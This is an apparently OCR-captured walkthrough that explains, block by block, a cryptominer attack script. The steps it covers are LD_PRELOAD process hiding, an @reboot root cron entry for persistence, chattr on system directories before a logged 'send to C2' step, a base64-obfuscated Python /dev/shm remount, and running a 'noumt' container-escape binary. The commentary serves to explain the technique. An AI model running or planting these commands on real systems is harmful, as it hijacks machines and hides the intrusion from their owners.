this begins the process hiding implementation. the shared library `xmx2.so` is installed via function hooking. it uses `LD_PRELOAD` to intercept syscalls like `readdir` and `opendir`. it configures the library to filter out mining processes from process listing tools and makes the preload file immutable to prevent easy removal.

```bash
log "$CYAN" "Creating persistence with a cron job ..."
mkdir -p /var/spool/cron/crontabs
touch /var/spool/cron/crontabs/root
(crontab -l; echo "@reboot ${SPATH}/xmx2") | crontab -
log "$BLUE" "Checking for existing backdoor crons:"
if [ -f "/etc/cron.d/backdoor" ]; then
  log "$YELLOW" "Found existing backdoor cron:"
  cat /etc/cron.d/backdoor
else
  log "$BLUE" "No backdoor cron found"
fi
```

this is our persistence mechanism. it creates a cron job to restart the miner upon system reboot. it checks for existing backdoor crons that might interfer and uses `crontab` to modify the user's crontab entries.

```bash
log "$CYAN" "Searching for secrets and sending them to C2 ..."
chattr -ia / /var/ /var/tmp/
```

this prepares the filesystem to collect the sensitive data (secrets).

```bash
log "$MAGENTA" "Executing Base64-encoded Python command to mount /dev/shm"
python3 -c 'import base64; scc = base64.b64decode("aW1wb3J0IGN0eXBlczsgY3R5cGVzLkNETEwoImxpYmMuc28uNiIpLm1vdW50KE5vbmUsIGIiL2Rldi9zaG0iLCBOb25lLCA0MDk2IHwgMzIsIGIiIik7Cg==");exec(scc)'
log "$BLUE" "Base64 command decodes to: import ctypes; ctypes.CDLL(\"libc.so.6\").mount(None, b\"/dev/shm\", None, 4096 | 32, b\"\")"
```

this is a container escape technique that leverages `ctypes` to make direct syscalls to `libc.so.6`. it attempts to remount the `/dev/shm` directory (a temporary filesystem for shared memory). `4096` is the opcode that corresponds to `MS_BIND`, which creates a bind mount (mirroring a directory to another location). `32` corresponds to `MS_REMOUNT`, which updates existing mount options.

combined (`4096 | 32 = 4128`), these flags attempt to remount an existing bind mount with new settings.

```bash
# Use pre-downloaded noumt from /tmp/payloads
log "$BLUE" "Copying noumt binary to /dev/shm/"
cp /tmp/payloads/noumt /dev/shm/noumt
chmod +x /dev/shm/noumt
log "$BLUE" "Executing noumt binary"
timeout 15 /dev/shm/noumt
```

this executes the `noumt` binary for the container escape technique. it uses the `cgroup mount/unmount` technique to escape container restrictions, and leverages the `cgroup v1/v2` mount manipulation vulnerabilities. the timeout is to prevent hanging if the escape fails.
